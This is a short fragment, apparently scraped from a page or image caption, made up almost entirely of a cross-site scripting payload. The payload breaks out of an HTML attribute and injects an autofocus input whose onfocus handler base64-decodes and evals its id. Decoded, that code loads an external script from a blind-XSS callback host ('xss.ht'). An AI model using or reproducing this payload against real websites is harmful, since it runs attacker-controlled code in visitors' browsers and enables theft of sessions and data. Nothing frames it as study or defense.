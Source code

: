 "><input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vbW9oYW4ueHNzLmh0Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw&#61;&#61; autofocus>
